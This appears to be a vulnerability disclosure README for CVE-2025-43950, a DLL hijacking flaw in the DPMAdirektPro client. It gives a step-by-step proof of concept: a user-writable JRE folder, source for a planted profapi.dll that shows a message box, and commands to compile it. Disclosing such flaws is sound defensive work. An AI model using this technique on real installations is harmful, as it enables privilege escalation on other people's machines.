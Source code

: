 # CVE-2025-43950
DPMAdirektPro version 4.1.5 is vulnerable to DLL Hijacking. It happens by placing a malicious DLL in a directory (in the absence of a legitimate DLL), which is then loaded by the application instead of the legitimate DLL. This causes the malicious DLL to load with the same privileges as the application, thus causing a privilege escalation.

# Affected Product & Version
DPMAdirektPro <= 4.1.5

Reference: https://www.dpma.de/english/services/efiling/dpmadirekt/downloads/index.html

# PoC

**Step 1:** </br>
Launch Procmon and apply the filters below to monitor the DPMAdirektPro application for DLL hijacking issues. 

Result is </br>
Name Not Found </br>
The path ends with dll

**Step 2:** </br> 
Notice that the folder **C:\DPMAdirekt\client\jre\jre21\bin** allows complete control to the users. This means a low-privileged user could write into this folder.

**Step 3:** </br>
Create a malicious payload using the source code below and save it as **profapi.cpp**
````
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 MessageBox(NULL, TEXT("pwnd!"), TEXT("dll hijack poc!"), 0);
 return 0;
}
````

**Step 4:** </br>
Compile on a Linux machine using the below commands.
````
#install mingw
 sudo apt install mingw-w64

#x64
 x86_64-w64-mingw32-gcc -shared -o profapi.dll profapi.cpp
````


**Step 5:** </br>
Place the PoC **profapi.dll** in folder **C:\DPMAdirekt\client\jre\jre21\bin**

**Step 6:** </br>
Open DPMAdirektPro tool again and observe the dll execution.

![Image Description](CVE-2025-43950.png)


# Credits
This vulnerability was discovered by Manjyot Singh of Henkel Cyber Security Team.

